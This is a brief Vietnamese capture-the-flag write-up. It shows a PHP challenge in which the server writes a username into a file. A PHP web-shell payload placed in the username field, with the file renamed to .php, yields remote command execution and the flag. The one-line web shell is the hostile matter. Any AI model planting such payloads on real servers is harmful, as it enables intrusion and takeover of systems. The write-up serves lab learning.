 <h1>PHP có làm em lo lắng</h1>

Server lấy tên người dùng và ghi vào 1 file, sẽ ra sao nếu như tên người dùng là đoạn code php và extension file là .php ?

```
username: <?Php system($_GET['cmd']);?>
```
![](./img/1.png)

Thay đổi tên file

![](./img/3.png)

Kết quả:

![](./img/2.png)

Lấy Flag

![](./img/4.png)

```
FLAG EHC{10v3_y0u_n0c_n0c_7cae0dbe8b9843073e076fc59c503717}
```